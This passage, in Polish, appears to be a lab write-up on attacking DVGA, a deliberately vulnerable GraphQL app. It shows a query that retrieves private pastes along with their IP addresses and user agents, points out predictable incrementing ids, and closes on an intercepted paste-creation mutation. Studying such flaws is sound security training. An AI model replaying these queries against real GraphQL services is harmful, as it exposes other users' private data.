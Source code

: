 ![DVGA Endpoint 2](screenshots/burp3.png)

Zapytanie do endpointu `graphql`, które pozwoliło na uzyskanie prywatnych wklejek:
```
query getPastes {
    pastes(public:false) {
        id
        title
        content
        ipAddr
        userAgent
        owner {
            name
        }
    }
}
```

Zapytanie działa prawidłowo, otrzymano w odpowiedzi tylko prywatne, dodane domyślnie wklejki domyślnego użytkownika DVGAUser. Uwagę zwracają wartości `id` wklejek, które wydają się być inkrementowane, a nie losowe. Zapytanie dla publicznych wklejek generuje analogiczny rezultat. Aby to potwierdzić, utworzono nową wklejkę za pomocą frontendu.

Przechwycone zapytanie:
```
mutation CreatePaste ($title: String!, $content: String!, $public: Boolean!, $burn: Boolean!) {
    createPaste(title:$title, content:$content, public:$public, burn: $burn) {
        paste {
            id
            content
            title
            burn
        }
    }
}
```
